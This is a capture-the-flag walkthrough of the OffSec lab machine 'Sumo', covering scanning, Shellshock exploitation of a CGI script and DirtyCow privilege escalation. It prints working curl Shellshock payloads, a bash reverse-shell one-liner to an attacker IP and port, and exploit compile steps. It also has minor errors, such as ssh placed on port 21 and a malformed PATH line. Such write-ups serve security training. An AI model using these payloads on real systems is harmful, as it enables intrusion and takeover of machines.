

## MACHINE INFO
> **[Sumo](https://portal.offsec.com/labs/play)** is an easy linux machine which leverages a shellshock vulnerability to gain a shell to the target. To escalate privileges we use a kernel exploit called dirtycow. 

## WALKTHROUGH
Perform an Nmap scan on the target to identify open ports and services running on them.
```shell
─$ sudo nmap -sCV -A 192.168.164.87 -p- --min-rate=10000ms
[sudo] password for p0s3id0n: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 20:18 BST
Warning: 192.168.164.87 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.164.87
Host is up (0.38s latency).
Not shown: 44378 closed tcp ports (reset), 21155 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/28%OT=22%CT=1%CU=30560%PV=Y%DS=4%DC=T%G=Y%TM=662E
OS:A168%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%TS=A)SEQ(SP=105
OS:%GCD=1%ISR=108%TI=Z%TS=9)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%TS=7)SEQ(SP=105%G
OS:CD=1%ISR=10A%TI=Z%TS=8)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M5
OS:51ST11NW5%O2=M551ST11NW5%O3=M551NNT11NW5%O4=M551ST11NW5%O5=M551ST11NW5%O
OS:6=M551ST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%D
OS:F=Y%T=40%W=3908%O=M551NNSNW5%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=EEDC%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   490.78 ms 192.168.45.1
2   476.76 ms 192.168.45.254
3   490.71 ms 192.168.251.1
4   490.92 ms 192.168.164.87

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.68 seconds
```

From the scan, we identified ssh running on port 21 and http running on port 80.

We proceeded with enumeration on port 80 and got redirected to a website, which didn't have a lot of information.


We proceeded to scan the website for hidden directories using gobuster.
```shell
$ gobuster dir -u http://192.168.164.87/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 177]
/index                (Status: 200) [Size: 177]
/server-status        (Status: 403) [Size: 295]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

From the output, the only interesting directory was the /cgi-bin/ directory but it has a 403 status code meaning we are forbidden from visiting the directory.

We scanned the /cgi-bin/ directory to find if there are any more hidden sub-directories on it.
```shell
$ gobuster dir -u http://192.168.164.87/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/test                 (Status: 200) [Size: 14]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The /test/ directory did not have any more information. At this point it felt like we were going down a rabbit hole.

I used nikto to scan the website for vulnerabilites.
The output of the nikto scan pointed us towards a shellshock vulnerability.

> Shellshock vulnerability is bash shell vulnerability that allows execution of arbitrary commands through environmental variable.

Using the information at (https://github.com/opsxcq/exploit-CVE-2014-6271) relevant to the shellshock vulnerability identified by nikto. 

We tested how to exploit the vulnerability using 
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.168.164.87/cgi-bin/test
```

Let's breakdown the command:
> `curl`: This is a command-line tool used to transfer data to or from a server. It's commonly used to make HTTP requests.
- **`() { :; };`**: This is the Shellshock payload. It defines a function without a name (`(){}`), followed by a colon `:`, which is a no-op command in Bash. This payload exploits the vulnerability in Bash (CVE-2014-6271) by executing arbitrary commands after the function definition.
- **`echo; echo;`**: These commands are used to insert empty lines in the HTTP request. They may be included to ensure that the injected payload is separated from other headers or content in the request.
- **`/bin/bash -c 'whoami'`**: This is the command that the attacker wants to execute on the target server. In this case, it's running the `whoami` command to determine the username of the user executing the CGI script.
- **`http://192.168.164.87/cgi-bin/test`**: This is the URL of the CGI script on the target server that the attacker is attempting to exploit.

Now that we know the exploit works, why not try editing the exploit to give us a revrese shell to the target?
Using (https://www.revshells.com/) we generated a single bash one-liner reverse shell payload.
Payload:
```shell
/bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1
```
Payload used:
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" http://192.168.164.87/cgi-bin/test
```
Before running the command, ensure the netcat listener is set. Once we ran the command, we successfully got a shell as www-data!!


We wanted to escalate our privliges to root and for that we used linpeas. 
> **Linpeas**  is a script used for privilege escalation on Linux systems during penetration testing or security assessments. You can get it from (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

We uploaded linpeas to the target through a python http.server and ran it. 


From the output of running linpeas, we got the following information:
- The target is running on Ubuntu version 12.04 
- There is a dirtycow exploit that can be used to exploit the kernel and possibly give us root privileges. 

To exploit this, we used : (https://github.com/FireFart/dirtycow/blob/master/dirty.c)
> **Dirtycow** is a security vulnerability in the Linux kernel that allows an unprivileged local user to gain write access to read-only memory mappings.

Once we uploaded the dirtycow exploit on our attack machine, we uploaded it to the target machine using python http.server. 
Once the exploit was uploaded, we compiled it using 
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```
We encountered a compilation error 

We solved the error using
```shell
`PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH`
```

Then we compiled it again and this time we successfully managed to the exploit.
The application prompts us to set a new password of choice and for this we use `blueberry`

Once the password is set, the application informs us that we can login as the user 'firefart' using the newly set password 'blueberry'


Now that we have the username, target ip and password, we used ssh to login as firefart.
After successfully logging in as firefart, I used the following command to overwrite the password.
```shell
mv /tmp/passwd.bak /etc/passwd
```

After, we confirmed that we are root, navigated to the /root directory and got the root flag!!

